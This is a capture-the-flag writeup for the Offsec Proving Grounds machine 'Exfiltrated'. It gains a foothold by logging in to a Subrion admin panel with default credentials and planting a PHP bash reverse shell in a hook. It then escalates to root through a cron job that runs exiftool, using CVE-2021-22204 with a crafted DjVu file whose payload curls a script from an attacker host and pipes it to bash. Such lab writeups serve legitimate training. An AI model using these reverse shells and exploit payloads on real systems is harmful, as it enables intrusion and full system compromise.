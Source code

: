 ```yaml
---
title: "Proving grounds Practice: Exfiltrated"
layout: post
date: 2023-08-26 06:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

## PORT: 80 | Web

http://exfiltrated.offsec/

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/admin-dashboard.png)

### Admin Dashboard

http://exfiltrated.offsec/panel/

### Password

admin:admin

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/admin-dashboard2.png)

Navigate to System->Hooks-> Edit sitemapGeneration

Add the below reverse shell code and click save.

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/1234 0>&1'");
```
![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/shell1.png)

Trigger shell by clicking the generate sitemap menu.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/shell2.png)

**Initial Foothold obtained**

## Privilege Escalation

Check for cron jobs

```sh
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *	* * *	root	bash /opt/image-exif.sh
#
```

Cronjob running a script `/opt/image-exif.sh`

```sh
cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

It appears to be there is a vulnerability for ExifTool versions 7.44 and above [CVE-2021-22204](https://nvd.nist.gov/vuln/detail/CVE-2021-22204).

Install `djvulibre-bin`.

As per the recon the cron job has been running the script as root user.

Create a reverse shell script `shell.sh`.

```sh
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'
```

Create a file as exploit and add the below content.

```sh
(metadata "\c${system ('curl http://<attacker_IP>:<PORT>/shell.sh | bash')};")
```

The attacker IP and PORT is specified on the above to download the `shell.sh` file into the attacking machine to obtain the root shell.

Now create djvu file and rename it to `jpg`.

```sh
djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit

cp exploit.djvu exploit.jpg
```

Now curl to download the `exploit.jpg` file into the attacking machine's uploads folder `/var/www/html/subrion/uploads`.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/transfer.png)

Once the `exploit.jpg` is downloaded into the uploads folder the cronjob runs the script, and when the exiftool reads the metadata from the `exploit.jpg` file it executes the command we have binded in the image.

Then it downloads the reverse shell script `shell.sh` from the attacker's machine and runs it as root.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
